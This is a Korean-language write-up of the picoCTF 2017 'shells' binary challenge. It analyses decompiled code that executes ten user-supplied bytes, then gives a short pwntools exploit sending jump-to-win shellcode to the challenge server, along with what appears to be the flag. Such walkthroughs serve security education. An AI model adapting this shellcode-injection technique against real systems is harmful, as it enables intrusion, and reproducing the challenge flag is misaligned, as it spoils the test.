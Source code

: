 `#asm`
- [Description](#description)
- [Analysis](#analysis)
- [Exploit code](#exploit-code)
## Description
How much can a couple bytes do?  
Use [shells](https://webshell2017.picoctf.com/static/8e8374627189dd4e8e27ec41eed166a1/shells)!  
[Source](https://webshell2017.picoctf.com/static/8e8374627189dd4e8e27ec41eed166a1/shells.c).  
Connect on shell2017.picoctf.com:50454.  

## Analysis
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("My mother told me to never accept things from strangers");
  puts("How bad could running a couple bytes be though?");
  fflush(stdout);
  vuln();
  return 0;
}
```
main() 에는 vuln() 함수 호출하는게 전부였다.  
```
int vuln()
{
  void *buf; // [sp+Ch] [bp-Ch]@1

  buf = mmap(0, 0xAu, 7, 34, 0, 0);
  if ( buf == (void *)-1 )
  {
    puts("Failed to get space. Please talk to admin");
    exit(0);
  }
  printf("Give me %d bytes:\n", 10);
  fflush(stdout);
  if ( !read(0, buf, 0xAu) )
  {
    printf("You didn't give me anything :(");
    exit(0);
  }
  return ((int (*)(void))buf)();
}
```
vuln() 마지막 줄을 보면  
지역변수 buf 를 호출하고 있다.  
바로 여기에 초점을 맞추면 된다.  
  
그렇기 때문에 read(buf, 0xA); 에서 attack!  

```
[0x08048440]> afl
...
0x08048540    1 24           sym.win
0x08048560    5 165          sym.vuln
0x08048610    1 84           sym.main
...
```
strip 되어있지 않아  
win() 이라는 사용자정의함수가 보인다.  
```
int win()
{
  return system("/bin/cat ./flag.txt");
}
```
  
vuln() 에 있었던 지역변수 buf 는 mmap() 으로부터 주소를 받으므로  
win() 을 호출할 어셈을 read(buf,0xA); 에 넣어야 한다.  
  
```
   0:   b8 40 85 04 08          mov    eax,0x8048540
   5:   ff e0                   jmp    eax
```

## Exploit code
```python
from pwn import *

r = remote('shell2017.picoctf.com', 50454)
r.recvuntil(':\n')
r.sendline('\xb8\x40\x85\x04\x08\xff\xe0')
r.interactive()
# b3b5aa513a9339475cd1054588bb70fd
```

